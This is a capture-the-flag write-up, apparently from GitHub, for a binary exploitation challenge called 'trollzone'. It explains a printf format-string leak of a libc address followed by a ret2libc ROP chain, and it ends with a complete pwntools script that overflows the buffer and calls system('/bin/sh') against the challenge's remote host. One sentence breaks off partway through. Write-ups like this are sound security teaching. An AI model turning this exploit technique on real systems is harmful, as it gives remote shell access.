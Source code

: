 ![Screenshot 2025-02-24 160120](https://github.com/user-attachments/assets/bc7feb06-104b-4699-8826-2d5877a9ab33) \
Solved by : Relster
# Technique = Format string leak & Ret2libc

## 1. Checking given file.
Given a zip file that contains 3 files which are _vuln_, _libc.so.6_, and _ld-linux-x86-64.so.2_ \

Checking binary protection.
```bash
[*] '/home/relster/Desktop/ctf/kashi/pwn/trollzone/chall/vuln'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```
This challenge is pretty trivial like most ret2libc challenges out there. The only difference is that, leaked address would n


## 2. Patching & Analyzing binary.
Patch:\
```bash
~/Desktop/ctf/pwninit    # You can change this according to where you put your pwninit
```
This should give us the __vuln_patched__ binary.\
\
Running binary:\
![image](https://github.com/user-attachments/assets/fb8f9552-91df-410a-becc-51919e4f6d4b)
If we continue leaking using '_%p_' format specifier, we'll find an address which still located within the _libc_ memory area and the offset is at the 17th offset (_%17$p_). Note that the address is still in _libc_ memory area but we that leaked address is not a _libc_ _function_ so we'll have to debug it in **GDB** to see nearest address that's a _libc function_. You'll see what i mean in the next image.

Debugging in **GDB**:\
Let's put a __breakpoint__ here and _run_ it.
![Screenshot 2025-02-27 124235](https://github.com/user-attachments/assets/e600377e-187b-4644-9f85-6430c41c4c96)

Type _ni_ and we will be asked for the input, and we'll type _%17$p_ to leak the address as i mention above.
![Screenshot 2025-02-27 124359](https://github.com/user-attachments/assets/571f07d4-7af4-42ee-a3f6-cab9905cd8ee)

We'll copy that _leaked address_ (_0x7ffff7e0924a_ in this case) and examine nearby address that is hopefully some _libc function_ so that we can subtract the offset of that function to get the base address of _libc_.


We can see that the leaked address is close to ___libc_start_main_, from here we just need to do some basic pointer arithmetic to get the address of ___libc_start_main_.\
![Screenshot 2025-02-27 124758](https://github.com/user-attachments/assets/d9bb708f-a1e6-495a-ac52-6e56b9c783eb)


It's _0x36_ bytes or 54 bytes in difference between _0x7ffff7e0924a_ and ___libc_start_main_.
![image](https://github.com/user-attachments/assets/8a549865-87ed-4ade-bcd3-c3045df634d7)


From here it's just trivial like traditional _**ret2libc**_ challenges, we'll just subtract the address of ___libc_start_main_ with its offset and voila we get the base address of _libc_.


## 3. Final Exploit
```python
#!/usr/bin/env python

from pwn import *

context.arch = 'amd64'

TARGET = './vuln_patched'
HOST = 'kashictf.iitbhucybersec.in'
PORT = 55698

elf = ELF(TARGET)
libc = ELF('./libc.so.6')
ld = ELF("./ld-linux-x86-64.so.2")

if not args.REMOTE:
  p = process(TARGET)
else:
  p = remote(HOST, PORT)

#context.log_level = 'DEBUG'

gdb_script = f"""
    break *main
"""
#gdb.attach(p, gdbscript=gdb_script)

# ===================================== #


# STAGE 1 : Leak address from stack using 'printf format string'

fmtstr = b'%17$p'   # leaked libc address is at 17th offset

rop = ROP(elf)
ret = rop.find_gadget(['ret'])[0]
libc_start_offset = libc.symbols['__libc_start_main']
system_offset = libc.symbols['system']
binsh_offset = next(libc.search(b"/bin/sh\x00"))

print("Offsets:")
print(f"__libc_start_main : {hex(libc_start_offset)}")
print(f"system            : {hex(system_offset)}")
print(f"/bin/sh           : {hex(binsh_offset)}")
print("==================================")

payload = flat(
    fmtstr,
)
p.sendline(payload)


# STAGE 2 : Clean up the leaked address

p.recvuntil(b'not giving you ')

# Leaking address and find libc base address
leak = p.recvuntil(b'\n').strip().decode()
libc_start_main = int(leak, 16) + 0x36  # this is adjacent (not very adjacent, but close) to the function '__libc_start_main', their difference is 0x36 bytes
libc_base = libc_start_main - libc_start_offset
system = libc_base + system_offset
binsh = libc_base + binsh_offset

print(f"leaked address    : {leak}")
print(f"__libc_start_main : {hex(libc_start_main)}")
print(f"libc_base         : {hex(libc_base)}")
print(f"system            : {hex(system)}")
print(f"binsh             : {hex(binsh)}")


# STAGE 3 : Craft payload from leaked addresses and send it to remote server

# Find pop rdi; ret; in libc
rop_libc = ROP(libc)
pop_rdi = rop_libc.find_gadget(['pop rdi', 'ret'])[0]
pop_rdi_addr = libc_base + pop_rdi

# Overflow, set up rdi register with '/bin/sh' string, call system()
pop_shell = flat(
    'A' * 40,
    ret,
    pop_rdi_addr,
    binsh,
    system
)
p.sendline(pop_shell)

p.interactive()
p.close()

# NOTE:
# Format string leak & Ret2libc
```

## 4. Result
Local:\
![Screenshot 2025-02-27 125815](https://github.com/user-attachments/assets/de3ac2e4-40c9-403a-b76e-3af625d58367)

Remote:\
![Screenshot 2025-02-27 130010](https://github.com/user-attachments/assets/e896452e-e2bb-441f-b4c0-38a226e2899e)
Note : I was writing this writeup when the challenge is done, so no flags but the exploitation remains the same.

## Keyword
ret2libc \
_printf_ format string leak
